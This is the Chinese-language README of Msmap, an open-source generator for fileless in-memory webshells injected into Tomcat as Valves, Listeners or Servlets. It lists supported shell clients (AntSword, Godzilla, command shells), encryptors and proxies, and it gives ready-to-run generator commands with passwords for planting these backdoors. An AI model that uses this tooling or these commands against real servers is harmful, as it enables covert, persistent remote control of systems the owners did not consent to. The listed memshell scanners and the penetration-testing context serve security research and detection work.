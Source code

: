 # MSMAP

Msmap是一个内存马生成器，兼容多种容器、组件、编码器、*WebShell / Proxy / Killer* 和管理客户端。

[English](README.md)

[背后的想法（一）](https://hosch3n.github.io/2022/08/08/Msmap%E5%86%85%E5%AD%98%E9%A9%AC%E7%94%9F%E6%88%90%E6%A1%86%E6%9E%B6%EF%BC%88%E4%B8%80%EF%BC%89/)

![](img/a.png)

![](img/b.png)

<details>
<summary>功能 [WIP]</summary>

### Function

- [x] 动态菜单
- [x] 自动编译
- [x] 生成脚本
- [ ] 精简模式
- [ ] 图形界面

### Container

- Java
  - [ ] Tomcat7
  - [x] Tomcat8
  - [x] Tomcat9
  - [x] Tomcat10
  - [ ] Resin
  - [ ] Weblogic
- .NET
  - [ ] IIS

### WebShell / Proxy / Killer

- WebShell
  - [x] CMD / SH
  - [x] AntSword
  - [x] JSPJS
  - [ ] Behinder
  - [x] Godzilla
- Proxy
  - [ ] Neo-reGeorg
  - [ ] wsproxy
- Killer(As-Exploits)
  - [x] java-memshell-scanner
  - [x] ASP.NET-Memshell-Scanner

### Decoder / Decryptor / Hasher

- Decoder
  - [x] Base64
  - [ ] Hex
- Decryptor
  - [x] RC4
  - [x] AES128
  - [x] AES256
  - [ ] RSA
- Hasher
  - [x] MD5
  - [x] SHA128
  - [x] SHA256

</details>

## 用法

``` bash
git clone git@github.com:hosch3n/msmap.git
cd msmap
python generator.py
```

> [注意] 尽量用独一无二的密码；各选项大小敏感

### 进阶

编辑 `config/environment.py`

``` python
# 自动编译
auto_build = True

# Base64编码类字节码
b64_class = True

# 生成脚本
generate_script = True

# 编译器绝对路径
java_compiler_path = r"~/jdk1.6.0_04/bin/javac"
dotnet_compiler_path = r"C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe"
```

编辑 `gist/java/container/tomcat/servlet.py`

``` java
// Servlet路径匹配规则
private static String pattern = "*.xml";
```

WsFilter暂不支持自动编译。如果使用了加密编码器，密码需要与路径相同（如`/passwd`）

## 示例

<details>
<summary>CMD / SH</summary>

系统**命令** 搭配 **Base64** 编码器 | 注入到 Tomcat Valve

`python generator.py Java Tomcat Valve Base64 CMD passwd`

</details>

<details>
<summary>蚁剑</summary>

**JSP**类型 搭配 **default** 编码器 | 注入到 Tomcat Valve

`python generator.py Java Tomcat Valve RAW AntSword passwd`

**JSP**类型 搭配 **[aes_128_ecb_pkcs7_padding_md5](extend/AntSword/encoder/aes_128_ecb_pkcs7_padding_md5.js)** 编码器 | 注入到 Tomcat Listener

`python generator.py Java Tomcat Listener AES128 AntSword passwd`

**JSP**类型 搭配 **[rc_4_sha256](extend/AntSword/encoder/rc_4_sha256.js)** 编码器 | 注入到 Tomcat Servlet

`python generator.py Java Tomcat Servlet RC4 AntSword passwd`

</details>

<details>
<summary>哥斯拉</summary>

**JAVA_AES_BASE64**类型 | 注入到 Tomcat Valve

`python generator.py Java Tomcat Valve AES128 Godzilla superidol`

> [已知问题](https://github.com/BeichenDream/Godzilla/issues/76)

</details>

## Reference

[GodzillaMemoryShellProject](https://github.com/BeichenDream/GodzillaMemoryShellProject)

[AntSword-JSP-Template](https://github.com/AntSwordProject/AntSword-JSP-Template)

[As-Exploits memshell_manage](https://github.com/yzddmr6/As-Exploits/tree/master/core/memshell_manage)

[Behinder](https://github.com/rebeyond/Behinder) | [wsMemShell](https://github.com/veo/wsMemShell) | [ysomap](https://github.com/wh1t3p1g/ysomap)